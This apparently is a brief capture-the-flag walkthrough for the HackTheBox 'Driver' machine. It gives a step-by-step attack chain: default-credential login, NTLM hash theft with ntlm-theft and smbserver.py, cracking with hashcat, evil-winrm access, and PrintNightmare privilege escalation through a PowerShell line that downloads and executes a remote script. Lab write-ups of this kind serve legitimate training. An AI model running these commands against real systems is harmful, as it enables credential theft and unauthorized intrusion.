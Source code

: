 # HACKTHEBOX Driver

Log into the web app with `admin:admin`
Create NTLMv2 hash theft files and upload `driver.lnk` to the web app.
```
$ ntlm-theft -g all -s 10.10.16.5 -f $PWD/driver
```

Start the SMB server with.
```
$ sudo smbserver.py leak /leak
```

Crack the ntlmv2 hash.
```
$ hashcat -a 0 -m 5600 hash.txt ~/Wordlists/rockyou.txt
```

Log in with evil-winrm.
```
$ evil-winrm -u tony -p liltony -i 10.10.11.106
```

Print nightmare privilege escalation with https://github.com/calebstewart/CVE-2021-1675
```
*Evil-WinRM* PS C:\Users\tony\Documents> iex(New-Object Net.WebClient).DownloadString('http://10.10.10.20:8000/CVE-2021-1675.ps1')
 *Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -DriverName "foo" -NewUser "tony" -NewPassword "liltony"
*Evil-WinRM* PS C:\Users\tony\Documents> exit
```

Log in again
```
$ evil-winrm -u tony -p liltony -i 10.10.11.106
```
